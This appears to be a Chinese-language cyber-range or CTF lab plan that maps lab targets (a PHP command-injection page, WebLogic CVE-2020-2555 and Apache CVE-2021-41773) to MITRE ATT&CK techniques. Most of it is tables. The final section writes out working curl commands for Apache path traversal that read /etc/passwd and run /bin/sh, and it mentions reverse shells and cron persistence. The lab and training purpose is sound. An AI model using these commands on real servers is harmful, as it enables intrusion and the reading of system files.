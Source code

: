 
| Technique ID  | Technique Name                                                  | 阶段       | 说明                                                  |
| ------------- | --------------------------------------------------------------- | -------- | --------------------------------------------------- |
| **T1203**     | **Exploitation for Client Execution**                           | 执行       | Metasploit 利用漏洞模块（比如 `samba/is_known_pipename`）进行触发 |
| **T1059.004** | **Command and Scripting Interpreter: Unix Shell**               | 执行       | 获取 shell 后，通过 Unix shell 执行命令                       |
| **T1053.003** | **Scheduled Task/Job: Cron**                                  | 权限维持 | 攻击者可创建 cron 持久化任务（如反弹 shell 持续存在）                   |

---

## 第一层靶标：vulshare_nginx-php-flag

###  攻击技术点

| ATT\&CK 技术 ID | 技术名称                                                 | 攻击阶段 | 行为描述                               |
| ------------- | ---------------------------------------------------- | ---- | ---------------------------------- |
| **T1203**     | Exploitation for Client Execution                    | 执行   | 直接通过 `cmd` 参数触发命令执行漏洞              |
| **T1059.001** | Command and Scripting Interpreter: PowerShell / Bash | 执行   | 在 URL 参数中执行 Linux 命令（如 `ls`、`cat`） |
| **T1040**     | Network Sniffing                                     | 侦察   | 可以在容器内抓取访问日志或包来检测攻击行为              |
| **T1595.002** | Active Scanning: Vulnerability Scanning              | 侦察   | 攻击者可能通过 Fuzz 发现 index.php 接收参数     |

---

## 第二层靶标： WebLogic – CVE-2020-2555

* 探测 WebLogic 控制台端口
* 构造 T3 反序列化 Payload 获取反弹 Shell 或 flag
* 监听并分析网络流量、日志确认利用是否成功

| ATT\&CK 技术 ID | 技术名称                                            | 阶段   | 说明                              |
| ------------- | ----------------------------------------------- | ---- | ------------------------------- |
| **T1190**     | Exploit Public-Facing Application               | 初始访问 | 通过反序列化漏洞攻击 WebLogic             |
| **T1059.005** | Command and Scripting Interpreter: Visual Basic | 执行   | 利用 T3 Payload 执行恶意命令            |
| **T1210**     | Exploitation of Remote Services                 | 横向移动 | 若攻击者通过反弹 Shell 获取控制权限，可进一步攻击内网  |
| **T1040**     | Network Sniffing                                | 侦察   | Wireshark 抓包分析是否存在 T3 通信或恶意命令流量 |
| **T1005**     | Data from Local System                          | 收集   | 读取 flag 文件作为靶场目标                |
| **T1057**     | Process Discovery                               | 发现   | 若攻击者探测运行服务、进程等信息                |

---

## 第二层靶标：Apache – CVE-2021-41773

* 使用 curl http://ip:port/cgi-bin/.%2e/%2e%2e/%2e%2e/etc/passwd 进行路径穿越读取
* 使用同样方式远程执行命令：如 curl 'http://ip/cgi-bin/.%2e/.%2e/.%2e/bin/sh -c "cat /flag"'
* 在服务器端分析 apache 访问日志，使用 tail -f access_log | grep ".."
